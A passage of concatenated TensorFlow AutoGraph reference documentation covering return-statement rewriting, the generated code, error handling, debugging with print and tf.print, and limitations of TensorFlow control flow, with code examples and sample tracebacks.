undefined return value is no exception. Therefore, AutoGraph will raise an
error for TensorFlow control flow in which the return value is not known for
all code paths.

For example, the following code raises an error because the return value would
be undefined when the random number would be less than 0.5:

```
if tf.random.uniform(()) > 0.5:
  return 1
```

```
ValueError: A value must also be returned from the else branch.
```

An example of rewriting a `while` (showing the output of the `return`
transformation only):

```
def f():
  while i < 10:
    if i > 3:
      return 1
    i += 1
```

```
def f():
  do_return = False
  retval_ = ag__.UndefinedReturnValue()
  while i < 10 and not do_return:
    if i > 3:
      do_return = True
      retval_ = 1
    if not do_return:
      i += 1
  return ag__.retval(retval_)  # Transforms any UndefinedReturnValue to None
```

Note: AutoGraph performs an additional code normalization in which an `if`
statement with no `else` branch contains a `return` statement it is rewritten as
an `if-else` statement in which the code that follows the statement is moved
under the `else` branch.

Example (showing the normalization only):

```
def f():
  if i > 3:
    return 1
  i += 1
```

```
def f():
  if i > 3:
    return 1
  else:
   i += 1
```


# AutoGraph reference

This reference document describes the semantics of AutoGraph transformations.

In `@tf.function`, AutoGraph allows running Eager-style code as a TensorFlow
graph.

*   [Introduction](intro.md)
*   [Interacting with the generated code](generated_code.md)
*   [Debugging AutoGraph code](debugging.md)
*   [Control flow](control_flow.md)
*   [Functions and function calls](functions.md)
*   [Error handling](error_handling.md)
*   [Operator semantics](operators.md)
*   [Limitations](limitations.md)
*   [Common errors](common_errors.md)

Also see:

*   [AutoGraph blog post](https://medium.com/tensorflow/autograph-converts-python-into-tensorflow-graphs-b2a871f87ec7)
*   [AutoGraph deep dive](https://www.youtube.com/watch?v=NIEgzljyDyI)
*   [tf.function guide](https://www.tensorflow.org/guide/function)
*   [Intro to TF graphs](https://www.tensorflow.org/guide/intro_to_graphs)
# AutoGraph reference

[Index](index.md)

## Generated code

For each converted function, AutoGraph creates a new function. The
loading mechanism is an implementation detail and may change, but the
generated function is generally a regular
[Python function](https://docs.python.org/3/reference/compound_stmts.html#function).
This function is typically executed internally by `@tf.function` to construct a
TensorFlow graph.

### Transformations made to the generated code

The generated code is a transformation of the input code. The transformations
are listed below. Any other elements are left unchanged.

Summary of transformations:

 * function calls are replaced with a wrapper:
   * `foo(args)` -> `ag__.converted_call(foo, args)`
 * `if`, `while` and `for` statements are replaced with function calls:
   * `if` -> `ag__.if_stmt`
   * `while` -> `ag__.while_stmt`
   * `for` -> `ag__.for_stmt`
 * `break`, `return`, and `continue` statements are replaced with equivalent
   `if` statements.
 * `and`, `or` and `not` operators are replaced with function calls:
   * `and` -> `ag__.and_`
   * `or` -> `ag__.or_`
   * `not` -> `ag__.not_`

The functions replacing control flow statements are very similar in form with
the corresponding control flow ops in TensorFlow.

### AutoGraph generates normal Python code

You can interact normally with the generated code. For example, you can use
the `inspect.getsourcefile` and `inspect.getsource`:

```
def f(a):
  ...

converted_f = tf.autograph.to_graph(f)
print(inspect.getsourcefile(converted_f))
```
```
/tmp/tmpm562wlj7.py
```

When using `@tf.function`, you can repeat the same steps using the function's
`python_function` attribute:

```
@tf.function
def f(a):
  ...

converted_f = tf.autograph.to_graph(f.python_function)
print(inspect.getsourcefile(converted_f))
```
```
/tmp/tmpm562wlj7.py
```

`tf.autograph.to_code(f)` is a shortcut to obtain the generated code, and it's
equivalent with calling `inspect.getsource(tf.autograph.to_graph(f))`.

#### Recording diagnostic information: `tf.autograph.set_verbosity`

AutoGraph can log additional debug information. This is mostly used for filing
bugs, but can also be used to get an indication of whether a function is
converted successfully or not.

You can enable logging by calling `tf.autograph.set_verbosity(level)`. The
`level` argument varies from 0 to 10:

 * 0 - no logging
 * 3 - includes the generated code
 * 4 and above - extremely verbose logging

Caution: The information being logged includes source code as well as
data. Before sharing AutoGraph logs, make sure they don't contain any sensitive
information.

Alternatively, you can control the verbosity level using the environment
variable `AUTOGRAPH_VERBOSITY`.
# AutoGraph reference

[Index](index.md)

## Error handling

When an exception occurs in code generated by AutoGraph, the error message
is augmented with information about the location in the original code,
before conversion.

When an error occurs in a TensorFlow graph constructed using AutoGraph code,
the stack trace which points to where the failing op was created is modified
to point to the original code, before conversion.

### Python execution errors

Python execution (or tracing) exceptions that are raised in AutoGraph code are
caught and re-raised with an extended error message that contains references
to the original code.

These functions are re-raised by `@tf.function`. If you use a `try/catch` the
exception inside `tf.function`, you will obtain the original exception.

The exception traceback still contains the entire call stack, including frames
corresponding to generated code.

AutoGraph tries to re-raise an exception of the same type as the original
exception. This is usually possible for subclasses of
`Exception` that do not define a custom `__init__`. For more complex
exception types which define a custom constructor, AutoGraph raises a
`StagingError` instead.

Among the distinctive features of the re-raised exception:

 * the exception traceback indicates the call stack of the exception, up to the
   first @tf.function
 * the error message includes references to the original code within
   the `@tf.function`
 * the references corresponding to converted code are marked with an
   asterisk (`*`)
 * the references corresponding to code which AutoGraph reached, but decided not
   to convert, are marked with a double asterisk (`**`)
 * the references corresponding to code that AutoGraph didn't reach at all have
   no marking

For example, the code below triggers an exception in the Python runtime, at
graph construction time:

```
@tf.function
def f():
  tf.constant(1) + tf.constant(1.0)
f()
```

An excerpt of the exception that is raised is shown below:

```
Traceback (most recent call last):
  File "<ipython-input-10-1938a51c970d>", line 11, in <module>
    f()
  File "tensorflow/python/eager/def_function.py", line 417, in __call__
    self._initialize(args, kwds, add_initializers_to=initializer_map)
  ... more TensorFlow internal frames ...
TypeError: in converted code:

    <ipython-input-9-002fa22f79df>:8 f  *
        tf.constant(1) + tf.constant(1.0)
    tensorflow/python/ops/math_ops.py:900 binary_op_wrapper  **
        return func(x, y, name=name)
    ... more TensorFlow internal frames ...

    TypeError: Input 'y' of 'AddV2' Op has type float32 that does not match type int32 of argument 'x'.

```

Note: the exact appearance of the various parts in the error message may change
in the future.

Let's look at the individual components of this exception.

The traceback of the exception indicates the location until the call to
`@tf.function`, including any frames internal to TensorFlow:

```
Traceback (most recent call last):
  File "<ipython-input-10-1938a51c970d>", line 11, in <module>
    f()
  File "tensorflow/python/eager/def_function.py", line 417, in __call__
    self._initialize(args, kwds, add_initializers_to=initializer_map)
  File "tensorflow/python/eager/def_function.py", line 360, in _initialize
    *args, **kwds))
  File "tensorflow/python/eager/function.py", line 1688, in _get_concrete_function_internal_garbage_collected
    graph_function, _, _ = self._maybe_define_function(args, kwargs)
  File "tensorflow/python/eager/function.py", line 1992, in _maybe_define_function
    graph_function = self._create_graph_function(args, kwargs)
  File "tensorflow/python/eager/function.py", line 1878, in _create_graph_function
    capture_by_value=self._capture_by_value),
  File "tensorflow/python/framework/func_graph.py", line 791, in func_graph_from_py_func
    func_outputs = python_func(*func_args, **func_kwargs)
  File "tensorflow/python/eager/def_function.py", line 310, in wrapped_fn
    return weak_wrapped_fn().__wrapped__(*args, **kwds)
  File "tensorflow/python/framework/func_graph.py", line 781, in wrapper
    raise e.ag_error_metadata.to_exception(type(e))
```

The exception message includes the location inside the converted function `f`:

```
TypeError: in converted code:

    <ipython-input-9-002fa22f79df>:8 f  *
        tf.constant(1) + tf.constant(1.0)
    tensorflow/python/ops/math_ops.py:900 binary_op_wrapper
        return func(x, y, name=name)
    tensorflow/python/ops/math_ops.py:1198 _add_dispatch
        return gen_math_ops.add_v2(x, y, name=name)
    tensorflow/python/ops/gen_math_ops.py:549 add_v2
        "AddV2", x=x, y=y, name=name)
    tensorflow/python/framework/op_def_library.py:564 _apply_op_helper
        inferred_from[input_arg.type_attr]))
```

Notice the frame corresponding to the call of `f`. The function is converted,
which is being indicated by the asterisk `*` character displayed next to
`f`:

```
    <ipython-input-9-002fa22f79df>:8 f  *
        tf.constant(1) + tf.constant(1.0)
```

Lastly, the lower part includes the message that the exception originally
reported:

```
    TypeError: Input 'y' of 'AddV2' Op has type float32 that does not match type int32 of argument 'x'.
```

Note: Typically, error messages raised by code internal to TensorFlow refers
to arguments of the internal API that failed. Error messages raised by code
internal to AutoGraph (that is, 'tensorflow/python/autograph') usually
refer to symbols used in your code.

### TensorFlow execution errors

TensorFlow execution errors are displayed normally, but the portions of the
error message which correspond to user code contain references to the original
code.

For example, the code below triggers an error in the TensorFlow runtime, at
graph execution time:

```
@tf.function
def my_function():
  tf.Assert(tf.random.uniform(()) > 1.0, ['example error'])
my_function()
```

An excerpt of the exception that is subsequently raised is shown below:

```
Traceback (most recent call last):
  File "<ipython-input-16-af656fb445f0>", line 11, in <module>
    my_function()
  File "tensorflow/python/eager/def_function.py", line 435, in __call__
    return self._concrete_stateful_fn._filtered_call(canon_args, canon_kwds)
  File "tensorflow/python/eager/function.py", line 636, in _filtered_call
    self.captured_inputs)
  File "tensorflow/python/eager/function.py", line 734, in _call_flat
    outputs = self._inference_function.call(ctx, args)
  File "tensorflow/python/eager/function.py", line 460, in call
    ctx=ctx)
  File "tensorflow/python/eager/execute.py", line 68, in quick_execute
    six.raise_from(core._status_to_exception(e.code, message), None)
  File "<string>", line 3, in raise_from
InvalidArgumentError:  assertion failed: [example error]
    [[node Assert/Assert (defined at <ipython-input-16-af656fb445f0>:8) ]] [Op:__inference_my_function_79]
```

Notice the error message containing references to the location where the failing
op was defined in the code (`<ipython-input-16-af656fb445f0>:8`):

```
InvalidArgumentError:  assertion failed: [example error]
    [[node Assert/Assert (defined at <ipython-input-16-af656fb445f0>:8) ]] [Op:__inference_my_function_79]
```

### AutoGraph conversion exceptions

Within `@tf.function`, when AutoGraph fails to convert a function, it displays
a warning message and attempts to run the function without conversion.

For example, the code below make a call to a Python
[generator](https://wiki.python.org/moin/Generators) function, which is not
supported by AutoGraph:

```
def example_generator():
  yield 1

@tf.function
def f():
  for i in example_generator():
    print(i)
```

Calling `f()` will still run the code. AutoGraph will convert the function `f`,
but skips the function `example_generator`. In addition, AutoGraph prints a
warning to the console indicating that the function is called without being
converted.

```
WARNING: Entity <function example_generator at 0x7f951b67f158> appears to be
a generator function. It will not be converted by AutoGraph.
```
# AutoGraph reference

[Index](index.md)

## Debugging AutoGraph code

The recommended way to debug AutoGraph code is to run it eagerly (see below).

AutoGraph generates a new function, rather than directly executing the input
function. Non-code elements, such as breakpoints, do not transfer to the
generated code.

You can step through the generated code and set breakpoints while debugging.
The converted function is cached, and breakpoints should persist for the
lifetime of the Python runtime.

Note: The code generated by AutoGraph code is more complex than the input code,
and is interspersed with AutoGraph boilerplate.

Note: Python debugging can only be used to step through the code during graph
construction time (or tracing time in the case of `tf.function`). To debug
TensorFlow execution, use Eager execution.

### Debugging `tf.function`: `tf.config.experimental_run_functions_eagerly`

When using `@tf.function`, you can temporarily toggle graph execution by using
`tf.config.experimental_run_functions_eagerly`. This will effectively run the
annotated code eagerly, without transformation. Since AutoGraph has semantics
consistent with Eager, it's an effective way to debug the code step-by-step.

Note: AutoGraph is compatible with Eager, but the converse is not always
true, so exercise care when making modifications to the code while debugging.

Consider the following code:

```
@tf.function
def f(a):
  pdb.set_trace()
  if a > 0:
    tf.print(a, 'is positive')
```

Executing the line below will land the debugger in generated code, when the
function is traced:

```
f(1)
```

```
>l
     10     def tf__f(a):
     11       pdb.set_trace()
---> 12       ag__.converted_call('print', tf, ag__.STD, (a,), None)
     13
     14       ...
```

Adding a call to `tf.config.experimental_run_functions_eagerly` before executing
the function will land the debugger in the original code instead:

```
tf.config.run_functions_eagerly(True)
f(1)
```

```
>l
      8 def f(a):
      9   pdb.set_trace()
---> 10   tf.print(a)
     11   if a > 0:
     12     tf.print('is positive')
```

### Using `print` and `tf.print`

The `print` function is not converted by AutoGraph, and can be used to inspect
the values of variables at graph construction time.

Mixing `print` with `tf.print` can be confusing at first because they run at
different stages. In general:

 * all `print`s run when the TensorFlow graph is constructed
 * all `tf.print`s run when the TensorFlow graph is executed

#### Example: `print`

To see the difference between `print` and `tf.print`.

```
@tf.function
def f(a):
  print(a)
  if a > 0:
    a = -a
```

When `a` is a `tf.Tensor` object, it is printed without an actual value:

```
f(tf.constant(1))
```
```
Tensor("a:0", shape=(), dtype=int32)
```

Similarly, when `a` is just a Python value, it is printed directly:

```
f(1)
```
```
1
```

#### Example: `print` followed by `tf.print`

To see the difference between `print` and `tf.print`, let's run them together:

```
@tf.function
def f(a):
  print(a)
  tf.print(a)
```

For non-`Tensor` values, they produce similar results:

```
f(1)
```
```
1
1
```

For Tensor values, only `tf.print` outputs the actual value:

```
f(tf.constant(1))
```
```
Tensor("a:0", shape=(), dtype=int32)
1
```

#### Example: `tf.print` followed by `print`

Remember that, in general, *all `print`s run before all `tf.prints`*.
What's more, since graphs are usually built once and executed multiple times,
`print` usually runs just once when the function is first called.

So in the example below, even though `tf.print` appears above `print`, it will
run after it, because the graph is executed after it is built:

```
@tf.function
def f(a):
  tf.print('At graph execution:', a)
  print('At graph construction:', a)
```

```
f(tf.constant(1))
```
```
At graph construction: Tensor("a:0", shape=(), dtype=int32)
At graph execution: 1
```

Calling the function again will re-use the graph in this case:

```
f(tf.constant(1))
```
```
At graph execution: 1
```
# AutoGraph reference

[Index](index.md)

## Limitations

When AutoGraph is applied to normal Python code, you should expect no change
in functionality.
However, when applied to TensorFlow control flow (for example, an if statement
with a `tf.Tensor` condition), there are certain limitations. This section
describes these limitations and practices that will allow you to avoid them.

Key Term: Python variables refer to Python symbols (or symbols for short) and
should not be confused with TensorFlow variables.

Key Term: A TensorFlow loop variable (or loop variable for short) refers to a
value (typically a `tf.Tensor`) modified by a loop. See `tf.while_loop`.

### Undefined and None values in TensorFlow

TensorFlow does not support undefined or `None` values. All tensors must have
a value.

Example:

```
x = tf.cond(
    tf.random.uniform(()) > 0.5,
    lambda: tf.constant(1),
    lambda: None)  # Error -- a Tensor cannot be None
```

The same restriction carries over in AutoGraph. If a variable is created inside
control flow, and used after, then it must be defined before the control flow
statement:

```
if tf.random.uniform(()) > 0.5:
  x = tf.constant(1)
else:
  x = None
tf.print(x)  # Error -- x may be None here
```

For this reason, AutoGraph forbids variables to be defined in only one branch
of a TensorFlow conditional, if the variable is used afterwards:

```
del x
if tf.random.uniform(()) > 0.5:
  x = tf.constant(1)
else:
  pass
tf.print(x)  # Error -- x may be undefined here
```

Note that if the variable is not used after the control flow statement, then it
is considered local to the control flow block, and is not subject to these
restrictions.

```
del x
if tf.random.uniform(()) > 0.5:
  x = tf.constant(1)  # Okay -- x does not need to be returned from the TF cond
else:
  pass
```

Similarly, variables must usually be defined before a TensorFlow loop.

The most common example that is not allowed is a loop which initializes some
accumulator variable in the first iteration:

```
del x
for i in tf.range(100):  # Error -- x must be defined before the loop
  if i == 0:
    x = tf.constant(1)
  else:
    x = x + 1
tf.print(x)
```

When the variable is only used inside the loop and does not depend on previous
iterations, then it's ok to only be initialized inside the loop.

```
del x
while tf.random.uniform(()) > 0.5:  # Okay -- x is not used after the loop
  x = tf.constant(1)
```

* New in TF 2.4 *

As long as it doesn't depend on previous iterations, the variable may also be
used after the loop, however in that case the loop must execute at least one
iteration, and will raise a runtime error otherwise.

```
del x
for i in tf.range(10):  # Okay -- x does not depend on previous iterations
  x = tf.constant(1)
tf.print(x)
```

```
del x
while tf.constant(False):  # Error -- loop must initialize x!
  x = tf.constant(1)
tf.print(x)
```

Avoid these limitations by defining a default value before the control flow
statement:

```
x = tf.constant()
if tf.random.uniform(()) > 0.5:
  x = tf.constant(1)
tf.print(x)  # Okay -- x is either 0 or 1
```

Note: `None` values and undefined symbols are allowed in Eager control flow,
because Eager execution uses Python control flow, rather than TensorFlow
control flow ops.

#### Special case: creating Tensors in a loop

* New in TF 2.4 *

A very common use-case is to run a training loop that creates some outputs:

```
for i in tf.range(num_steps):
  outputs = train(next(data_iterator))
```

Often times these outputs can be nested structures of Tensors, which makes them
impractical to initialize ahead of the loop.

To help with this use-case, AutoGraph lets you run such loops, under certain
conditions:

 * outputs must be a Tensor, Python numeric, or a structure of these
 * outputs must not depend on the value from a previous iteration; in other
   words, the outputs may only appear to the left of an assignment operation
 * the loop must run at least one iteration

If the type of outputs is not recognized, then the usual
"outputs must be defined before the loop" is raised at graph construction.

AutoGraph also inserts a `tf.Assert` statement that raises a runtime error
if the loop did not execute at least one iteration.

### Indirect modifications and hidden side effects in TensorFlow control flow

Key Point: We recommend using a functional programming style, immutable Python
collections, TensorFlow ops and collections. Only TensorFlow objects should be
used for side effects.

#### AutoGraph analyzes code to detect modifications to Python objects

Note: Modifications to TensorFlow objects, such as `tf.Variable`, are tracked
using a different mechanism (automatic control dependencies) which does not
rely on code analysis.

One of the most important functions of AutoGraph is to rewrite Python control
flow statements into equivalent TensorFlow ops. This process requires "wiring"
variables covered by these control flow statements into the respective ops.

The examples below use a `while` loop, but the same notions extend to all
control flow such as `if` and `for` statements.

In the example below, `x` needs to become a loop variable of the
corresponding `tf.while_loop':

```
while x > 0:
  x = x - 1
```
```
x = tf.while_loop(..., loop_vars=(x,)
```

TF control ops support only a limited set of types for loop variables. At the
same time, the efficiency of TensorFlow graphs is influenced by the number of
loop variables, so we don't want to create them unnecessarily. AutoGraph pulls
symbols through loop variables only if necessary to minimize the number of
loop variables.

Note: If a symbol refers to a nested structure, such as a `dict` of `dict`s,
the entire structure is mapped to multiple loop variables - TensorFlow
automatically unpacks it.

For example, the symbol 'y' below is not wired through the `tf.while_loop`'s
`loop_vars` because it is not affected by the `while` loop:

```
y = 0
while x > 0:
  x = x - 1
print(y)
```
```
x = tf.while_loop(..., loop_vars=(x,)  # y does not need to be a loop variable
```

AutoGraph uses static analysis to determine which symbols are modified by the
code, in order to transform them into control flow variables. Static analysis
is generally performed on single functions - Python's dynamic nature limits its
effectiveness across functions.

#### Modifications of Python objects are not detected across functions

Note: Modifications to TensorFlow objects, such as `tf.Variable`, are tracked
using a different mechanism (automatic control dependencies). Modifications
to `tf.Variable` objects are correctly handled even when called in other
functions.

Because static analysis is limited to single functions, modifications that are
performed in other functions are not visible to AutoGraph:

```
def change_y():
  global y
  y = y + 1

while x > 0:
  change_y()  # Problem -- change made to y is not visible here!
```

This can be easily remedied using a functional programming style - writing
functions that use argument for all their inputs and return values for all their
outputs:

```
def change(y):
  y = y + 1
  return y

while x > 0:
  y = change(y)  # Okay -- y can now be properly tracked!
```

As noted before, this limitation does not apply to most TensorFlow objects,
although it is still a good idea to use functional programming style for
better code readability:

```
def change(y_var):
  y_var.assign_add(1)

y = tf.Variable(1)
while x > 0:
  change(y)  # This is still okay -- TensorFlow side effects are robust.
```

Keep in mind however that certain types like `tf.TensorArray` don't support
side effects and must have their result assigned, otherwise they may raise an
error:

```
def change(ta):
  ta.write(0, 1)  # Incorrect use of TensorArray - will raise an error
```

In other words, `tf.TensorArray` must be handled using functional programming
style:

```
def change(ta):
  ta = ta.write(0, 1)  # Modifications create a new TensorArray efficiently.
  return ta

ta = tf.TensorArray(tf.int32, size=0, dynamic_size=True)
while x > 0:
  # TensorArray must be handled using functional programming style.
  ta = change(ta)
```

#### Modifications of Python objects are not detected in methods

A special case of hidden side effects are methods, which are commonly used
to change the value of objects:

```
class MyClass(object):
  def change(self):
    self.y += 1

c = MyClass()
while x > 0:
  c.change()  # Problem -- modification to c.y is not visible here!
```

This can be addressed in a number of ways.

One possibility is to operate directly on the object properties:

```
c = MyClass()
while x > 0:
  c.y += 1  # Okay -- c.y can now be properly tracked!
```

Another possibility is to rely on immutable objects with value semantics. This
may lead to many temporary objects when executing eagerly, but their number is
greatly reduced in `@tf.function`:

```
class MyClass(collections.namedtuple('MyClass', ('y',))):
  def change(self):
    new_y = self.y + 1
    return MyClass(new_y)

c = MyClass()
while x > 0:
  c = c.change()  # Okay -- c is now a loop var.
```

It is also recommended to use a functional programming style with such immutable
objects - that is, all arguments are inputs, all changes are return values:

```
def use_my_class(c: MyClass) -> MyClass:
  new_c = c.change()
  return new_c
```

Don't worry about creating a few extra objects - they are only used at trace
time, and don't exist at graph execution.

Note: TensorFlow control flow does not currently support arbitrary Python
objects, but it does support basic collection objects such as `list`, `dict`,
`tuple`, `namedtuple` and their subclasses. Design your objects as subclasses
of [namedtuple](https://docs.python.org/3/library/collections.html#collections.namedtuple),
or other types that [tf.nest](https://www.tensorflow.org/api_docs/python/tf/nest/map_structure)
recognizes.

#### Variables closed over by lambda functions

AutoGraph assumes that variables that local functions close over may be used
anywhere in the parent function, because in general it is possible to hide a
function call in almost any Python statement). For this reason, these variables
are accounted within TensorFlow loops.

For example, the following code correctly captures `a` in the TensorFlow loop
variables:

```
a = 0
def f():
  tf.print(a)
for i in tf.range(3):
  a = i
f()  # Prints 2
```

An consequence is that these variables must be defined before the loop (see
Undefined and None values above). So the following code will raise an error,
even if the variable is never used after the loop:

```
def f():
  tf.print(a)
for i in tf.range(3):  # Error -- `a` must be defined before the loop.
  a = i
```

However, lambda functions are handled differently, for reasons of backward
compatibility. Lambda functions are assumed to be used in the statement where
they are used, or at least in the same block.

```
a = 0
foo(lambda: a)  # This lambda is not expected to be called anywhere else.
for i in tf.range(3):  # Okay -- `a` is local to the loop.
  a = i
```

Due to that reason, the following code will not work as expected for TensorFlow
loops.

```
a = 0
l = lambda: tf.print(a)
for i in tf.range(3):
  a = i  # `a` is considered local to the loop
l()  # Prints 0!
```

Note that none of these restrictions only apply to TensorFlow loops; Python
loops correctly handle closures in all cases.

### Python collections in TensorFlow control flow

Key Point: Use TensorFlow collection classes instead of Python collections.
Python collections are okay to use when they represent a fixed structure (that
is, `list`s don't change length, `dict`s don't add or remove keys).

#### Modifying Python collections in TensorFlow control flow is not allowed

One of the advantages of eager execution is that you may use the usual Python
collections, like `list` or `dict` to hold `tf.Tensor` values. However, these
are generally not compatible with TensorFlow control flow. Specialized
collections like `tf.TensorArray` are required.

Consider the following example:

```
def fn():
  l = []

  def loop_cond(i):
    return i < 10

  def loop_body(i):
    i = i + 1
    l.append(i)
    return i,

  tf.while_loop(
      cond=loop_cond,
      body=loop_body,
      loop_vars=(0,))

  return l
```

This code works in eager execution, which does not use the TensorFlow runtime
for the `tf.while_loop`:

```
fn()
```

However, it does not work in graph execution, because TensorFlow uses special
mechanisms to ensure the computations are correctly sequenced in the dataflow
graph:

```
tf.function(fn)()  # Error -- illegal tensor capture!
```

The equivalent AutoGraph code raises the same error:

```
l = []
for i in tf.range(10):
  l.append(i)  # Error -- illegal tensor capture!
```

Instead, use the specialized `tf.TensorArray` class:

```
l = tf.TensorArray(tf.int32, size=0, dynamic_size=True)
for i in tf.range(10):
  l = l.write(l.size(), i)  # Okay
```

#### Python collections of fixed structure are allowed TensorFlow control flow

An exception from the previous rule is made by Python collections that are
static, that is, they don't grow in size for the duration of the computation.

Caution: Use functional programming style when manipulating static collections.

Examples:

```
static_list = [tf.constant(3)]
while d.prop > 0:
  static_list[0] -= 1  # Okay -- static_list does not change structure
```
```
static_object = MyClass()
static_object.field = tf.constant(3)
while static_object.field > 0:
  static_object.field -= 1  # Okay -- static_object does not change structure
```
```
static_dict = {'field': tf.constant(3)}
while static_dict['field'] > 0:
  static_dict['field'] -= 1  # Okay -- static_dict does not change structure
```

However, remember to use functional programming style when these collections
are used inside control flow.

#### Python collections of fixed structure with dynamic index

A more subtle error occurs when the collection is static, but is accessed in a
dynamic way, that is with a key that is not constant.

For example:

```
d = {'a': tf.constant(3)}
for i in tf.range(10):
  for key in d:
    d[key] += i  # Problem -- accessing `dict` using non-constant key
```

The code above will raises an "illegal capture" error. To remedy it, write it
in functional programming style:

```
d = {'a': tf.constant(3)}
for i in tf.range(10):
  d = {key: value + i for key, value in d.items()}  # Okay
```

### Shape and dtype consistency in TensorFlow control flow

Unlike Python, TensorFlow has limited support for dynamic typing. This means
that tensors must maintain consistent shapes and dtypes across control flow
paths.

Note: In general, these restrictions do not apply in control flow in Eager
execution, because Eager execution uses Python control flow, rather than
TensorFlow control flow ops.

#### Mixing dynamic computations and static shapes

Key Point: Use `.shape` on tensors of static shape, and `.shape.rank` on
tensors of static rank; only use `tf.shape` and `tf.rank` when the shape or
rank is dynamic.

TensorFlow has optional static types and shapes: the shape of tensors may be
static (e.g. `my_tensor.shape=(3, 3)` denotes a three by three matrix) or
dynamic (e.g. `my_tensor.shape=(None, 3)` denotes a matrix with a dynamic
number of rows and three columns. When the shapes are dynamic, you can still
query it at runtime by using the `tf.shape()` function.

Note: `tf.shape` always returns a tensor.

For static shapes, TensorFlow will perform additional shape verifications at
graph construction time, that is, during tracing. These static shape
verifications are useful because they work like a compiler for example, errors
are caught early, before execution even begins.

For example:

```
x = tf.constant([1, 2, 3])
x[4]  # Tracing error! 4 is out of bounds.
```

To avoid tracing errors, you can add static shape verifications, which help
make your code more robust:

```
if x.shape[0] > 4:
  val = x[4]
else:
  val = some_default_value
```

In the snippet above, the code is protected against index-out-of-bounds
errors. The code is also efficient because the verification `x.shape[0] > 4`
will not be included in the graph.

But what happens if you try to perform the index verifications using dynamic
control flow? You might expect that the code works in the same way:

```
val = tf.cond(
  x.shape[0] >= 4,
  lambda: x[4],
  lambda: some_default_value)
```

However, TensorFlow will not let you write code that could result in an error,
even if that code appeared in a branch of a `tf.cond` statement that would
never execute. Remember that the shape of `x` is `(3,)`, so TensorFlow performs
static shape verification.

This can lead to surprising behavior when using `tf.shape` on tensors with
static shape in TensorFlow:

```
x = tf.constant((1, 2, 3))
if tf.shape(x)[0] > 4:
  val = x[4]  # Error at tracing: 4 is out of bounds!
else:
  val = some_default_value
```

Because `tf.shape` always evaluates to a Tensor, the `if` statement above is
converted by AutoGraph into a `tf.cond`, which performs static shape
verification of both branches.

What if you need to write code which can handle both static and dynamic
shapes? There are a few options in this case:

A first option is to always work with dynamic shapes, for instance by
using `input_signature` in `tf.function`. Many shape and shape-related checks
are skipped when the shape is dynamic:

```
@tf.function(input_signature=(tf.TensorSpec(shape=(None,))))
def f(x):  # x now has dynamic shape
  if tf.shape(x)[0] >= 3:  # Builds a tf.cond
    val = x[4]  # Okay, bounds checks are skipped when the shape is dynamic
  else:
    val = some_default_value
```

A second option is to first verify whether the shape is static or dynamic.
This can be done at tracing time, allowing to use Python `if` to only trace
the code that is suitable for the situation:

```
if x.shape[0] is None:  # Python bool, does not use tf.cond
  # ... use x.shape here ...
else:
  # ... use tf.shape(x) here ...
```

#### Consistency of dtype

The dtypes across all code paths must be consistent in conditionals and loops.

For example, if a `tf.cond` (and correspondingly, an AutoGraph `if`) sets a
tensor value conditionally, then that tensor must have the same shape and dtype
in both branches of the conditional.

Example of illegal dtype change in a conditional:

```
x = tf.cond(
    tf.random.uniform(()) > 0.5,
    lambda: tf.constant(1, dtype=tf.int32),
    lambda: tf.constant(1, dtype=tf.float32))  # Error -- inconsistent dtypes: int32, float32
```

The same restriction in AutoGraph code:

```
if tf.random.uniform(()) > 0.5:
  x = tf.constant(1, dtype=tf.int32)
else:
  x = tf.constant(1, dtype=tf.float32)  # Error -- inconsistent dtypes: int32, float32
```

Example of illegal dtype change in a loop:

```
# This won't work - "x" changes dtype inside the loop.
x = tf.while_loop(
    lambda _: tf.random.uniform(()) > 0.5,
    lambda x: tf.constant(1, dtype=tf.float32),
    loop_vars=(tf.constant(1, dtype=tf.int32),))  # Error -- inconsistent dtypes: int32, float32
```

The same restriction in AutoGraph code:

```
x = tf.constant(0, dtype=tf.int32)
while tf.random.uniform(()) > 0.5:
  x = tf.constant(0, dtype=tf.float32)   # Error -- inconsistent dtypes: int32, float32
```

#### Consistency of shape

The shapes across all code paths must be consistent in loops only. When tensors
do need to change shape across iterations, use `shape_invariants`.

Note: Shapes are allowed to be inconsistent in conditionals. The result will be
a partially dynamic shape.

In a `tf.while_loop` (and correspondingly, an AutoGraph `while` or `for` loop)
all loop variables must maintain consistent shape and dtype across iterations.
That is, every loop variable must have the same shape at the end of the loop
body as it had at the beginning of the loop body.

Example of illegal shape change in a loop:

```
def loop_body(x):  # x.shape is ()
  return tf.constant((1, 2, 3))  # Error -- inconsistent shapes: (), (3,)

x = tf.while_loop(
    lambda _: tf.random.uniform(()) > 0.5,
    loop_body,
    loop_vars=(tf.constant(1,))
```

The same restriction in AutoGraph code:

```
x = tf.constant(1,)
while tf.random.uniform(()) > 0.5:
  x = tf.constant((1, 2, 3))  # Error -- inconsistent shapes: (), (3,)
```

### Consistency of control flow types

In AutoGraph, one can write Python control flow like `for i in range(10)`, as
well as TensorFlow control flow like `for i in tf.range(10)`.

However, one could also write (illegal) programs which start as Python control
flow, then turn into TensorFlow control flow. In such cases, an error will be
raised.

Below are a few examples, along with recommendations.

#### Python loop, TF-dependent break or return

Example:

```
for i in range(10):
  if tf.greater(i, 3):
    break  # error - TF break inside Python loop
```

The solution in this case is to change the loop type to a TF loop:

```
for i in tf.range(10):
  if tf.greater(i, 3):
    break  # works
```

#### Python loop that turns into a TensorFlow loop

Example:

```
i = 10
while i > 0:
  i = tf.math.subtract(i, 1)  # error - loop would turn into a TF loop
```

The solution in this case is to make sure the loop type starts as a TF loop,
typically by making sure the condition is always a Tensor:

```
i = tf.constant(10)  # works
while i > 0:
  i = tf.math.subtract(i, 1)
```

#### TensorFlow loops never turn into Python loops

Note that this is a legal case, as TensorFlow implicitly converts all Python
values to Tensor:

```
i = tf.constant(10)
while i > 0:
  i = 0  # this is ok, will be auto-converted to Tensor
```

### Access to source code

Key point: AutoGraph can only handle functions whose source code can be
accessed at runtime.

Almost all Python functions allow access to their source code. However, a few
exceptions exist:

 * functions created in the Python interactive shell
 * functions with native bindings (these do not have Python source code)
 * functions created dynamically, using `exec` or `eval`

Use
[inspect.findsource](https://docs.python.org/3/library/inspect.html#inspect.findsource)
to quickly diagnose whether the source code is available for a function.

For example:

```
import inspect

def simple_function():
  return 1

# If this raises an error, then AutoGraph prints a warning.
# If it returns source code, then AutoGraph should work as well.
inspect.findsource(simple_function)
```

#### Source code of lambda functions

##### TF 2.4 and newer

Key Point: When nesting lambda functions, use distinguishing argument names
to avoid parse errors.

The Python runtime exposes the source code of lambda functions, however it
may omit parts of the actual body, or include surrounding code. This may make it
impossible to parse the exact source code of the lambda function (see
https://github.com/tensorflow/tensorflow/issues/39832).

